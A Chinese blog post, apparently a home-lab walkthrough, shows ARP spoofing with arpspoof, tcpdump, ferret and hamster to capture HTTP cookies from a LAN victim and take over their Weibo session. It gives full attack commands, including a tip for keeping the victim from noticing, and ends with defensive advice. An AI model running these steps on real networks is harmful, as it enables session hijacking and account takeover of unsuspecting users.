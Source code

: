 ```yaml
---
layout:     post
title:      "局域网攻击之 ARP 欺骗"
subtitle:   "使用 Kali Linux 下的 arpspoof, tcpdump, ferret, hamster 通过 ARP 攻击实现 Cookie 劫持"
date:       2016-06-23 21:32 +0800
author:     "gsfish"
header-img: "img/post-bg-kali.jpg"
tags:
    - 渗透
    - 内网
---
```


> 大部分内容都是参考的网上的教程，但还是想照着试试并记录一下

#### 基本环境：

> 网关：  
> 192.168.1.1  
>   
> 攻击者：  
> IP: 192.168.1.110  
> OS: Kali Linux (VirtualBox)  
>   
> 靶机：  
> IP: 192.168.1.105  
> OS: Windows 10  

---

## 0x00 说下思路

- 首先通过 ARP 欺骗使靶机与网关间的数据包经由攻击者主机转发
- 等待目标用户进行登陆操作，抓取 HTTP 数据包
- 解析所抓取的数据包，并提取出 Cookie
- 将 Cookie 导入浏览器，从而实现劫持目标用户的会话

---

## 0x01 事前准备

#### 一、安装 ferret

除 ferret 的其他 3 个工具已经集成在 Kali 中了，我们要自行安装 ferret（64 位 Kali 需要增加对 32 位程序的支持才能在源中找到它）。这个工具连同 hamster 是由一个叫 [Robert Graham](https://github.com/robertdavidgraham) 的黑客开发的。

1) 增加对 32 位程序的支持

`root@kali:~# dpkg --add-architecture i386`

2) 更新源

`root@kali:~# apt-get update`

3) 安装

`root@kali:~# apt-get install ferret-sidejack`

#### 二、开启 IP 转发

使用 arpspoof 进行 ARP 欺骗前需要开启本机的 IP 转发（这个临时的，重启后会失效），不然目标用户在攻击期间会无法上网，从而起疑。

`root@kali:~# echo 1 > /proc/sys/net/ipv4/ip_forward`

---

## 0x02 作战开始

#### 一、进行 ARP 欺骗

`root@kali:~# arpspoof -i eth0 -t 192.168.1.105 192.168.1.1`

![01.png](/img/lan-attack-cookie-hijack/01.png)

`root@kali:~# arpspoof -i eth0 -t 192.168.1.1 192.168.1.105`

![02.png](/img/lan-attack-cookie-hijack/02.png)

> 参数解释  
> **-i**    所用的网卡设备名  
> **-t**    攻击目标的 IP（由于是单向的，所以需要开启两个）

这两个窗口在攻击过程中要一直保持。然后进入靶机，打开命令提示符。

`WIN + R` 输入 `cmd`

在靶机中看一下效果。

`C:\Users\gsfish>arp -a`

> 参数解释  
> **-a**    通过询问当前协议数据，显示当前 ARP 项

![03.png](/img/lan-attack-cookie-hijack/03.png)

Bingo~ 可以看到 ARP 缓存表中网关的 MAC 已经变成攻击者的了，取得初步胜利~

#### 二、抓取 HTTP 数据包

`root@kali:~# tcpdump -i eth0 tcp port 80 and host 192.168.1.105 -w cookie.cap`

> 参数解释  
> **-i**    所用的网卡设备名  
> **-w**    生成数据包的名称  
> **tcp port 80 and host 192.168.1.105**    抓取通过 192.168.1.105:80 的数据包

等待目标用户登陆网站或访问任何登陆后的页面，于是就可以抓到含有 Cookie 的 HTTP 数据包了。过一段时间后停止抓取（这只能抓取 HTTP 流量，如果网站启用了 HTTPS 就需要采用新的姿势了，例如 SSLstrip）。

![04.png](/img/lan-attack-cookie-hijack/04.png)

在家目录下会生成一个 `cookie.cap` 文件，这就是我们一直在抓的数据包了。然而现在我们还看不懂其中的内容，需要用 ferret 来解析一下。

#### 三、解析 cookie.cap

`root@kali:~# ferret -r cookie.cap`

> 参数解释  
> **-r**    读取数据包并将其解析，生成 hamster.txt  
> **-i**    所用的网卡设备名（其实 ferret 也有抓包的功能）

![05.png](/img/lan-attack-cookie-hijack/05.png)

此时数据包中的内容已被解析并保存到了家目录中的 `hamster.txt`。

#### 四、加载 Cookie，模拟登陆

`root@kali:~# hamster`

hamster 是一个十分高效的工具，直接输入命令即可打开。虽然 Firefox 的一些插件自定义 Cookie，但 hamster 能很方便地把我们生成的 `hamster.txt` 中的 Cookie 信息自动导入到浏览器中。

![06.png](/img/lan-attack-cookie-hijack/06.png)

打开浏览器，设置代理为 `127.0.0.1`，端口 `1234`。

![07.png](/img/lan-attack-cookie-hijack/07.png)

在地址栏输入 `127.0.0.1:1234`。点击 `192.168.1.105`，接着出现以下页面。

![08.png](/img/lan-attack-cookie-hijack/08.png)

在左侧栏我们看到了 `http://weibo.com/...`。嘿嘿嘿，点击链接，成功利用目标用户的 Cookie 登陆器其新浪微博。把这个地址复制到地址栏后就可以正常使用其微博的所有功能啦。

![09.png](/img/lan-attack-cookie-hijack/09.png)

---

## 0x03 关于防范

如果你平时大部分时间使用的都是公共网络，而你的身边恰好有人喜欢搞过安全，那就别浏览那些比较私密的东西啦。同时这也告诉我们，最好不要使用机场、餐厅这些公共场合的 WIFI 进行一些登陆的操作（除非使用了 VPN 或者 Tor）。

关于 ARP 攻击的防范方面，主机和路由器都需要进行相关设置的。路由器要在管理页面设置 MAC 绑定，而主机方面可以通过 `arp -s` 这个命令将网关的 IP 与 MAC 进行绑定。

同学 [@yungkcx](https://github.com/yungkcx) 刚好写了一篇相关的博客，在此安利一波：

[An ARP Attack](https://yungkcx.github.io/network/security/2016/06/10/An-ARP-Attack.html)

---

> 参考资料：  
> [『局域网安全』利用ARP欺骗劫持Cookie](http://www.cnblogs.com/anka9080/p/arpspoof.html)
